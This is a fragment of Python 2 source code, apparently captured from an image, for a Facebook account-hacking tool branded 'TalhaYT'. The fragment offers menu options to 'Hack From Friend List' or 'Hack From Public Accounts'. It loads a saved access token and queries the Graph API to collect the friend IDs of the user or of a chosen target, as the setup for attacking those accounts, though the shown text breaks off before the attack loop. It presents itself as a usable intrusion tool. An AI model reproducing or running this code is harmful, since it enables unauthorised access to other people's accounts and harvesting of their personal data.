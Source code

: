 	elif unikers =="1":
		super()
	elif unikers =="2":
		os.system('xdg-open https://commentpicker.com/find-facebook-id.php')
	        menu()
	elif unikers =="3":
		os.system('xdg-open https://youtube.com/c/TalhaTechnologychannel')
                menu()
	elif unikers =="0":
		jalan('Token Removed')
		os.system('rm -rf login.txt')
		keluar()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih()


def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print "\033[1;97m[1]\x1b[1;34mHack From Friend List"
	print "\033[1;97m[2]\x1b[1;34mHack From Public Accounts"
	print "\033[1;97m[0]\033[1;95mBack"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;35mChoose an Option: \033[1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mTalhaYT\033[1;95m-_-_-_-_-_-_-_-_-»"
		print logo
		jalan('\033[1;91mGetting Accounts \033[1;93m■■■■■100%')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mTalhaYT\033[1;95m-_-_-_-_-_-_-_-_-»"
		print logo
		idt = raw_input("\033[1;96m[*] \033[1;96mEnter ID\033[1;93m: \033[1;97m")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;93mName\033[1;93m:\033[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;91mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
			super()
		print"\033[1;91mGetting Accounts\033[1;93m■■■■■100%"
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']: